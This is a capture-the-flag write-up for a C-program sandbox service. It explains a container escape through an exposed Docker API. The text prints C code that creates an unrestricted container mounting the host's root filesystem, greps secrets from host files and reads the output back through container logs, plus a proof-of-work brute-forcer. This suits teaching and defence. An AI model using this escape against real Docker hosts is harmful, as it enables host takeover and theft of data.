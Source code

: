 # Writeup for the Sandbox service from HITB SECCONF EDU CTF 2021

## About the service

Service Sandbox provides a very simple functionality: it allows to run a small C program with passed input and get it's output.

Service has HTTP API which can be observed on `http://<IP>:8000/docs`:

![Swagger for Sandbox service](images/swagger.png)

Endpoints `/users` and `/login` are intuitive.

Endpoints `/programs` allow to upload a C program and list available programs available for running.

Running a program is CPU bound task so you we need to protect the service from the flood. It's the reason why proof-of-work has been added to the service.
First, you need to send POST request to `/programs/{program_id}/challenge`, receive challenge and solve it (it takes ~60 seconds in one core).
After that you are able to run a program: just send a POST request to `/programs/{program_id}/run` with solved challenge and input for your program. 

Service is written on Python, uses FastAPI as a framework and PostgreSQL as a database. It runs programs inside of docker containers, which are located
in the separate virtual machine (VirtualBox).

## Structure of the service

Service has three parts, which can be found at `/home/sandbox` of the vulnerable image.

First part is Python application located in `src` subfolder.
Second part is VirtualBox machine, created from the image located in `sandbox_vm_image` subfolder. VirtualBox machine doesn't have internet connection, only python application can connect to it (
to 22/tcp — SSH, and to 2375/tcp — Docker)
And third part is Docker image located in `sandbox_docker_image`. Containers created from this image are running inside of VirtualBox machine.
You can investigate internals of Docker image, because it's just a .tar.gz archive.

## Vulnerability

VirtualBox machine has docker socket which accepts connections from the Python service. It's builtin feature of the Docker daemon.
But if you allow to connect to the Docket socket, you should be 100% sure that only legit users can do it. 

In our case we can connect to the Docker socket from the Docker container, so it's not safe! We can run a program which connects to the Docker socket, creates a new container, mount
host file system, run some code in privileged mode and so on... It's a big security hole!

We have only two problems.

1. We need to connect to the Docker socket from C program without any libraries installed. Fortunately, Docker socket has HTTP API. Example of program connecting to this API and creating some containers
could be found at [sploit folder](../../sploits/sandbox/program_template.c). Some piece of code from there:

```(c)
void create_hacking_container() {
    char result[BUFFER_SIZE];

    // 1. Create a container
    char* shell_command = "while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done";
    char body[BUFFER_SIZE];
    sprintf(body, "{\"Image\": \"sandbox\", \"EntryPoint\": \"/bin/sh\", \"Cmd\": [\"-c\", \"%s\"], \"HostConfig\": { \"Binds\": [\"/:/host\"] }}", shell_command);
    send_http_request_post(docker_host, DOCKER_PORT, "/containers/create", body, result);
    printf("%s", result);

    char container_id[DOCKER_CONTAINER_ID_LENGTH + 1];
    extract_json_field(result, "Id", container_id);

    printf("Container id: %s\n", container_id);

    // 2. Run the container
    char run_container_url[MAX_URL_LENGTH + 1];
    snprintf(run_container_url, MAX_URL_LENGTH, "/containers/%s/start", container_id);
    send_http_request_post(docker_host, DOCKER_PORT, run_container_url, "{}", result);
    printf("%s", result);

    printf("FOR EXPLOIT:\n%s\n", container_id);
}
```

This part of code creates a fresh Docker container (without any limits), mounts host's root directory / to /host and run following shell command with flag grepping (programs with flags are stored in `/tmp/*/program.c` for some time):

```(bash)
while true; do grep -oE '[A-Z0-9]{31}=' /host/tmp/*/program.c 2> /dev/null; sleep 1; done
```

After that program runs this container and prints to stdout the id of this container. After some time we can send another program which connects to Docker socket and read logs (stdout and stderr)
of this container by it's id. Logs should contains greppped flags:

```(c)
void get_hacking_container_output(const char* container_id) {
    char result[BUFFER_SIZE];

    char get_container_logs_url[MAX_URL_LENGTH + 1];
    snprintf(get_container_logs_url, MAX_URL_LENGTH, "/containers/%s/logs?stdout=true&stderr=true&tail=20", container_id);
    int len = send_http_request_get(docker_host, DOCKER_PORT, get_container_logs_url, result);

    print_hex_buffer(result, len);
}

```

2. We need to pass the proof-of-work challenge to run a program. There is no other way to brute force it. I've done it in C++:

```(cpp)
#include <openssl/sha.h>

using namespace std;

string sha256(const string& str) {
    unsigned char hash[SHA256_DIGEST_LENGTH];
    SHA256_CTX sha256;
    SHA256_Init(&sha256);
    SHA256_Update(&sha256, str.c_str(), str.size());
    SHA256_Final(hash, &sha256);
    stringstream ss;
    for(int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        ss << hex << setw(2) << setfill('0') << (int)hash[i];
    }
    return ss.str();
}

int main() {
    ... // read the prefix

    for (unsigned int suffix = 0; ; suffix++) {
        char buffer[17];
        sprintf(buffer, "%08x%08x", prefix, suffix);
        string result = sha256(buffer);
        if (result.substr(0, 6) == "000000") {
            cout << prefix << " " << suffix << " " << buffer << " " << result << endl;
            break;
        }
    }

    return 0;
}
```




Full exploit can be found at [sploits/sandbox](../../sploits/sandbox).
